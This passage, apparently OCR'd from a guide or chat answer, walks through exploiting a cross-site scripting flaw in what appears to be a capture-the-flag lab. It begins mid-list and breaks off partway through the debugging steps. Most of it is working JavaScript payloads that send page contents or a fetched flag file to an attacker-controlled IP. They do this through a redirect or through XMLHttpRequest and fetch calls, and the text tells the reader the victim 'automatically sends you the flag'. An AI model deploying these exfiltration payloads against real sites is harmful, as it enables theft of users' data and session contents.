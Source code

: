✅ **This method works when normal `fetch()` calls are blocked.**

---

## **5️⃣ Redirect the Victim to Your Server With the Flag**

Instead of fetching, **redirect the user with the flag in the URL**:

```html
<script>
window.location.href = "http://10.10.8.202:5667/?leak=" + encodeURIComponent(document.body.innerText);
</script>
```

✅ **If the victim visits the flag page, they automatically send you the flag!**

---

## **6️⃣ Use an XMLHttpRequest-Based Exploit**

If `fetch()` is blocked but `XMLHttpRequest` works:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://10.10.49.94:8080/flag.txt", true);
xhr.onreadystatechange = function () {
  if (xhr.readyState == 4 && xhr.status == 200) {
    fetch("http://10.10.8.202:5667/?leak=" + encodeURIComponent(xhr.responseText));
  }
};
xhr.send();
</script>
```

✅ **This may work if `fetch()` is blocked but `XMLHttpRequest` is not.**

---

## **🛠️ Debugging Next Steps**

### **Try These to Identify the Issue**

1️⃣ **Test If `fetch()` Works**

```html
<script>
fetch("http://10.10.49.94:8080/flag.txt")
  .then(res => res.text())
  .then(data => alert(data))
  .catch(error => alert("Error: " + error));
</script>
```
